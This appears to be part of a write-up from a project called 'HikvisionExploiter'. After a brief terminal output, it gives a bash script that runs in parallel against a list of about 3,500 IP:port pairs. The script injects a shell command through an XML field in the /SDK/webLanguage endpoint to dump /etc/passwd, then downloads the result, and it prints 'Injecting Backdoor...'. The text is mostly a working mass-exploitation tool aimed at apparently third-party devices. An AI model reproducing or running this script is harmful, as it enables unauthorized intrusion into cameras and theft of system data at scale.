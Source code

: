 ```bash

Hardware	: r2
Revision	: 0000
Serial		: 0000000000000000

 ╭─hex@space in repo: HikvisionExploiter on  main [!?] via  v3.13.5 took 5s
 ╰─λ 

 
```

***

## Automation For Testing vulnerability

As we have a list of 3500 hosts, it would be insanity to test it manually, so we will use an automation optimized for speed bash script to test the vulnerable ones.

```bash
#!/bin/bash

# function to process each IP:PORT
process_host() {
    local IP=$1
    local PORT=$2
    
    echo "Trying $IP:$PORT"

    # inject payload
    if curl -s -m 5 -X PUT "http://$IP:$PORT/SDK/webLanguage" \
        -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8" \
        --data '<?xml version="1.0" encoding="UTF-8"?><language>$(cat /etc/passwd > webLib/x)</language>' \
        > /dev/null 2>&1; then
        echo "  Payload sent successfully to $IP:$PORT"
    else
        echo "  Payload timeout/error for $IP:$PORT"
    fi

    # try to retrieve the dumped file
    response=$(curl -s -m 3 "http://$IP:$PORT/x" 2>/dev/null)
    if [ -n "$response" ]; then
        echo "  Retrieved data from $IP:$PORT:"
        echo "Injecting Backdoor..."
        echo "$response"
    else
        echo "  No data retrieved from $IP:$PORT (timeout/no file)"
    fi
    echo ""
}

# export the function so its available to subshells
export -f process_host

# read all IP:PORT pairs and run them in parallel
while IFS=: read -r IP PORT; do
    # Run each host processing in background
    process_host "$IP" "$PORT" &
done < pizza.txt

# wait for all background processes to complete
wait

echo "all scans completed"
```